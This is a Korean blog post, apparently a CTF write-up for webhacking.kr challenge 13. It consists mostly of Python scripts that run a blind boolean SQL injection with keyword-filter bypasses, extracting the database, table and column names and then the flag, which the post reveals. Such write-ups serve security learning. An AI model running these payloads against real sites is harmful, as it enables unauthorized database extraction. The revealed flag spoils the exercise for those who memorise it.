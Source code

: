 ```yaml
---
title: "Security: webhacking.kr 13-15"
last_modified_at: 2020-07-05T20:20:02-05:00
categories:
  - Security
tags:
  - webhacking.kr
  - 웹해킹
toc: true 
toc_label: "Table of Contents"
toc_icon: "cog"
toc_sticky: true 
author_profile: true 
read_time: false 
---
```


---
### 13 문제 풀이
---

13번 문제에 들어오니 다음과 같은 화면을 볼 수 있었다. 
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제13/13-1.JPG" alt="">
  <figcaption> </figcaption>
</figure>

이번 문제는 푸는데 꽤나 오래걸렸다. 창에 true를 입력하면 1이 출력되고 false를 입력하면 0이 출력되었다. 그리고 sql Injection을 시도하기 위해 몇가지 명령문을 입력하니 특정단어들은 no hack이라는 문구가 출력되면서 필터링 되었다.
{: .notice}

<figure class="half">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제13/13-1-1.JPG" alt="">
  <figcaption> </figcaption>
</figure>

<figure class="half">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제13/13-1-2.JPG" alt="">
  <figcaption> </figcaption>
</figure>

<figure class="half">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제13/13-1-3.JPG" alt="">
  <figcaption> </figcaption>
</figure>

```
#DB 이름 길이 구하기
dbName_length = 0
for i in range(1,20):
    data = "?no=(if(length(database())in({}),1,0))".format(i)
    print(data)
    html = requests.get(url+data).text
    if re.search("<td>1</td>",html):
        print("1")
        dbName_length = i
        break
    if re.search("<td>0</td>",html):
        print("0")
print("dbName_length: ",dbName_length)
# 결과는 7 
```
```
#DB 이름 구하기
dbName = ""
for i in range(1,8):
    for j in range(33,123):
        data = "?no=(if(ord(substr(database(),{},1))in({}),1,0))".format(i,j)
        print(data)
        print(dbName)
        html = requests.get(url+data).text
        if re.search("<td>1</td>",html):
            dbName+=chr(j)
            break
        else: print("None")
print(dbName)
#chall13
```
```
#Table명 길이
tName_length = 0
for i in range(1,20):
    data = "?no=(if((select(length(min(if((select(table_schema)in(database())),table_name,null))))from(information_schema.tables))in({}),1,0))".format(str(i))
    print(data)
    html = requests.get(url+data).text
    if re.search("<td>1</td>",html):
        print("1")
        tName_length = i
        break
    if re.search("<td>0</td>",html):
        print("0")
print("tName_length: ",tName_length)
#테이블명 길이는 13 자리
```

```
#Table명
tName = ""
for i in range(1,14):
    for j in range(33,128):
        data = "?no=(if((select(substr(min(if((select(table_schema)in(database())),table_name,null)),{},1))from(information_schema.tables))in({}),1,0))".format(str(i),str(bin(j)))
        print(data)
        print(tName)
        html = requests.get(url+data).text
        if re.search("<td>1</td>",html):
            tName+=chr(j)
            break
        if re.search("<td>0</td>",html): print("0")
print(tName)
##이진수로 찾아야 결과가 올바르게 나온다
##결과 "FfLlAaGg_AaBb733768" 알파벳은 두자씩 나왔지만 바꾸면 "flag_ab733768"
```
<figure class="half">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제13/13-2.JPG" alt="">
  <figcaption> </figcaption>
</figure>
```
#Column명 길이
cName_length = 0
for i in range(1,20):
    data = "?no=if((select(length(min(if((select(table_name)in(0b01100110011011000110000101100111010111110110000101100010001101110011001100110011001101110011011000111000)),column_name,null))))from(information_schema.columns))in("+bin(i)+"),1,0)"
    #0b01100110011011000110000101100111010111110110000101100010001101110011001100110011001101110011011000111000
    print(data)
    html = requests.get(url+data).text
    if re.search("<td>1</td>",html):
        print("1")
        cName_length = i
        break
    if re.search("<td>0</td>",html):
        print("0")
print("cName_length: ", cName_length)
#13자
```
<figure class="half">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제13/13-3.JPG" alt="">
  <figcaption> </figcaption>
</figure>
```
#Column명
cName = ""
for i in range(1,14):
    for j in range(33,128):
        data = "?no=if((select(substr(min(if((select(table_name)in(0b01100110011011000110000101100111010111110110000101100010001101110011001100110011001101110011011000111000)),column_name,null)),"+str(i)+",1))from(information_schema.columns))in("+str(bin(j))+"),1,0)"
        print(data)
        print(cName )
        html = requests.get(url+data).text
        if re.search("<td>1</td>",html):
            cName+=chr(j)
            break
        if re.search("<td>0</td>",html): print("0")
print(cName)
#FfLlAaGg_3Aa55Bb31Dd    #flag_3a55b31d
```
<figure class="half">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제13/13-4.JPG" alt="">
  <figcaption> </figcaption>
</figure>
```
#flag길이
fName_length = 0
for i in range(1,30):
    data = "?no=if((select(length(max(flag_3a55b31d)))from(chall13.flag_ab733768))in("+str(i)+"),1,0)"
    print(data)
    html = requests.get(url+data).text
    if re.search("<td>1</td>",html):
        print("1")
        fName_length = i
        break
    if re.search("<td>0</td>",html):
        print("0")
print("fName_length: ", fName_length)
```
<figure class="half">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제13/13-5.JPG" alt="">
  <figcaption> </figcaption>
</figure>
```
#flag 내용
fName = ""
for i in range(1,28):
    for j in range(33,128):
        data = "?no=if((select(substr(max(flag_3a55b31d),"+str(i)+",1))from(chall13.flag_ab733768))in("+str(bin(j))+"),1,0)"
        print(data)
        print(fName )
        html = requests.get(url+data).text
        if re.search("<td>1</td>",html):
            fName+=chr(j)
            break
        if re.search("<td>0</td>",html): print("0")
print(fName)

#FLAG{CHALLENGE13GUMMYCLEAR} FLAG{challenge13gummyclear}
```
<figure class="half">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제13/13-6.JPG" alt="">
  <figcaption> </figcaption>
</figure>

<figure class="half">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제13/13-7.JPG" alt="">
  <figcaption> </figcaption>
</figure>